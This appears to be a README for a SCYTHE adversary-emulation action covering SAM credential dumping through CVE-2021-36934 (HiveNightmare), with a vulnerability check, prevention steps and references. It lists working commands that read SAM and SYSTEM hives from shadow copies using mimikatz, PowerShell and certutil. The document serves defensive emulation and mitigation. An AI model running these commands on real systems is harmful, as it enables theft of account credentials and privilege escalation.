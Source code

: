 # T1003.002 - OS Credential Dumping: Security Account Manager

This SCYTHE Compound Action checks the Windows system for CVE-2021-36934, an elevation of privilege vulnerability that allows any user to read and copy the Security Accounts Manager (SAM) database, and copies the SAM and SYSTEM hive for offline and online (using mimikatz) credential dumping.  For more about OS Credential Dumping: https://attack.mitre.org/techniques/T1003/002/

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack Emulation with SCYTHE
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy# to the backup available on the disk. You can identify that by using the ```vssadmin list shadows``` command.

## Manual Attack Emulation
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```
- ```powershell foreach($i in @("SYSTEM","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\$i", "$i")}```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM SYSTEM.encoded```
- ```certutil -decode SYSTEM.encoded SYSTEM.hive```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SAM SAM.encoded```
- ```certutil -decode SAM.encoded SAM.hive```
- ```powershell.exe -c "[Console]::OpenStandardInput().CopyTo([Console]::OpenStandardOutput())" <"\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\Config\SAM"> sam_export.txt```

## Prevention
Restrict access to %windir%\system32\config and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\*.* /inheritance:e```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```
- Note: you must restrict access and delete shadow copies to prevent exploitation of this vulnerability

## References
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://attack.mitre.org/techniques/T1003/002/
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare